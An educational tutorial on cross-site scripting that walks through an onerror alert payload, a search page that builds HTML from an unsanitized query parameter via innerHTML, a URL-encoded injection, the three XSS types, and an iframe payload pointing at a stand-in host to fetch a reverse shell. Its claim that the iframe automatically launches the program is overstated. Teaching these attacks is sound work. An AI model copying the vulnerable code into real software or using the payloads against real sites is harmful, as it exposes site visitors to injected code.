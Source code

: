 # Cross Site Scripting (XSS)

## Video


## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

### Example

Consider the following block of HTML code:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist">
...
````
When this site renders in the browser, what happens? The site looks like this:

![xss1](../img/xss1.png)

If you put a reference to an image that does not exist right into the web page, a broken image icon will show up in its place. This is expected behavior.

What about this code block? Similar, but notice a small difference:
````html
...
<body>
<p> This is my website </p>

<img src="does-not-exist" onerror="alert('hi!')"> >
...
````
Now, when the website is rendered, the additional `onerror` tag tells the website to trigger an alert box if there is some error on the page. And indeed, there is an error: the page is trying to load an image that does not exist!

When the page renders, it looks like this:

![xss2](../img/xss2.png)

This time, we get an error message alert. So far so good, right? We, as the page author, are just using the common HTML tags to add different things to the website.

Well, what happens when you allow the user to provide input in the form of a...well, form?

Consider this  HTML snippet of a form:
````html
...
 <form action="" method="GET">
    <input type="text" name="q">
    <input type="submit" value="Search">
</form>
...
````
````javascript
document.addEventListener('DOMContentLoaded', function() {
    var q = getQueryParameter('q');
    if (q) {
        search(q, function(error, results) {
        showQueryAndResults(q, results);
    });
  }
}
...

function showQueryAndResults(q, results) {
    var resultsEl = document.querySelector('#results');
    var html = '';
    html += '<p>Your search query:</p>';
    html += '<pre>' + q + '</pre>';
    html += '<ul>';
    for (var index = 0; index < results.length; index++) {
        html += '<li>' + results[index] + '</li>';
    }
    html += '</ul>';
    resultsEl.innerHTML = html;
  }
...
````
Notice the addition of the `<input type="text" name="q">` tag. What exactly is this doing?

Well, per the form's tag parameters, it will make a GET request (in this case, to nothing as it's just an example) and will add whatever is put in the search bar to the "q=" parameter. Since this is a <code>GET</code> request, this parameter is viewable in the URL of the page:

![xss3](../img/xss3.png)

The Javascript function that handles this form listens for a value that is added to the "q=" parameter and adds this value straight into the HTML of the page itself. Yikes!

Remember the broken image tag from before? How about we insert it into the page as the user, **not as the author** via XSS?

Through the URL, by using the insecure GET parameter of "q=" on this page, we will inject a **URL encoded HTML tag** to include the same broken image tag as before, with that exact same error. And, if the syntax is correct, the user will be able to include HTML in the page as if they were the author.

We will take the same syntax from before and URL encode it with a tool like this one: https://www.urlencoder.org/

`<img src="does-not-exist" onerror="alert('hi!')">`

becomes

`%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E`

...and we will inject this into the "q=" parameter in the website's URL:

![xss4](../img/xss4.png)

Then, we hit enter!

![xss5](../img/xss5.png)

The URL will automatically render the URL encoded characters when the form is submitted. What we're left with is an HTML tag that is dynamically added to the page by way of an evil user's actions.

## The Types
There are three types of XSS:
- Reflected XSS: a user action adds some kind of HTML or Javascript to the website page, then the input is evaluated by the server, and is processed as if it were in the client's own web browser. This type usually does not stay on the system after it is exploited.
- Stored XSS: Think of this as XSS that is added to the actual code on the server. For example, let's say there is a message forum that accepts a user's input as a comment on the message board. If this form is vulnerable to XSS, the malicious code will be posted to the forum itself rather than kept in the client's web browser. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- Document Object Model based XSS: XSS that occurs completely within a page's Document Object Model (DOM). The DOM is the client-side workspace where the web browser can interpret languages like Javascript. DOM XSS is commonly found when a page uses a Javascript function that appears in the URL and can be edited by the client.


## The Damage
XSS is not just a matter of popping up an alert on a website. An attacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of a particularly nasty Stored XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.